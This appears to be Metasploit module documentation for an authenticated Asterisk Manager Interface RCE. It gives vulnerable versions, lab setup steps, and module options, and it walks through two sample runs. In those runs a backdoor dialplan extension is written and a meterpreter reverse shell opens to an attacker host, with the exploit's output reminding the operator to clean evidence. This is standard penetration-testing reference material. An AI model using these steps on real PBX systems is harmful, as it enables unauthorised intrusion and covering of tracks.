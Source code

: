 ## Vulnerable Application

On Asterisk, prior to versions 18.24.2, 20.9.2, and 21.4.2 and certified-asterisk
versions 18.9-cert11 and 20.7-cert2, an AMI user with 'write=originate' may change
all configuration files in the '/etc/asterisk/' directory. Writing a new extension
can be created which performs a system command to achieve RCE as the asterisk service
user (typically asterisk).

Default parking lot in FreePBX is called "Default lot" on the website interface,
however its actually 'parkedcalls'.

Tested against Asterisk 19.8.0 and 18.16.0 on Freepbx SNG7-PBX16-64bit-2302-1.

### Install

One easy method, while outdated, is using the FreePBX ISO.

1. Boot to ISO and install the system. Choose Asterisk 19
2. Visit the web interface on port 80
3. Complete initial setup, make sure to not do updates.
4. login
5. Click FreePBX Administration
6. Click the hamburger > Applications > Parking
7. Check the parking extension and name (`70` and `Default lot` are the defaults)
8. Login (ssh/local) and edit `/etc/asterisk/manager.conf`
  1. Under `[general]`:
    1. Change `bindaddr` value to `0.0.0.0`
    2. If you'd like to test the version checking, grab admin's secret, and set `permit=0.0.0.0/0.0.0.0`
    3. Add the following at the bottom of the file:
    ```
[testuser]
secret=testuser
write=originate
permit=0.0.0.0/255.255.255.0
    ```
9. reboot box (after boot, it may take SEVERAL minutes for asterisk to come up)

Default parking lot is called "Default lot" in the website interface, however its actually `parkedcalls`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/misc/asterisk_ami_originate_auth_rce`
1. Do: `set rhosts <rhost>`
1. Do: `set lhost <lhost>`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. You should get a shell.

## Options

### CONF

The extensions configuration file location. Defaults to `/etc/asterisk/extensions.conf`

### PARKINGLOT

The extensions and name of the parking lot. Defaults to `70@parkedcalls`

### EXTENSION

The extension number to backdoor. Defaults to a random number between 3-5 digits.

## Scenarios

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 19

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 8.0.2
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: EfVeZSDeGcn
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:43812) at 2024-11-04 09:09:57 -0500

meterpreter > shell
Process 5831 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 19.8.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 07:07:49 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```

### FreePBX 12.7.8-2302-1.sng7 (SNG7-PBX16-64bit-2302-1) with Asterisk 18

```
resource (ami.rb)> use exploit/linux/misc/asterisk_ami_originate_auth_rce
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
resource (ami.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (ami.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (ami.rb)> set username testuser
username => testuser
resource (ami.rb)> set password testuser
password => testuser
resource (ami.rb)> set verbose true
verbose => true
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > set parkinglot 700@parkedcalls
parkinglot => 700@parkedcalls
msf6 exploit(linux/misc/asterisk_ami_originate_auth_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:5038 - Running automatic check ("set AutoCheck false" to disable)
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[!] 1.1.1.1:5038 - No active DB -- Credential data will not be saved!
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Checking Asterisk version
[!] 1.1.1.1:5038 - The service is running, but could not be validated. Able to connect, unable to determine version
[*] 1.1.1.1:5038 - Connecting...
[*] 1.1.1.1:5038 - Found Asterisk Call Manager version 7.0.3
[*] 1.1.1.1:5038 - Authenticating as 'testuser'
[+] 1.1.1.1:5038 - Authenticated successfully
[*] 1.1.1.1:5038 - Using new context name: fSvWOLdAx
[*] 1.1.1.1:5038 - Loading conf file
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Setting backdoor
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Reloading config
[+] 1.1.1.1:5038 -   Response: Success, Message: Originate successfully queued
[*] 1.1.1.1:5038 - Triggering shellcode
[*] Sending stage (24772 bytes) to 1.1.1.1
[+] 1.1.1.1:5038 - !!!Don't forget to clean evidence from /etc/asterisk/extensions.conf!!!
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:53468) at 2024-11-04 09:37:35 -0500

meterpreter > shell
Process 3977 created.
Channel 1 created.
asterisk -rx "core show version"
Asterisk 18.16.0 built by mockbuild @ jenkins7 on a x86_64 running Linux on 2023-01-16 06:50:30 UTC
cat /etc/schmooze/pbx-version
12.7.8-2302-1.sng7
```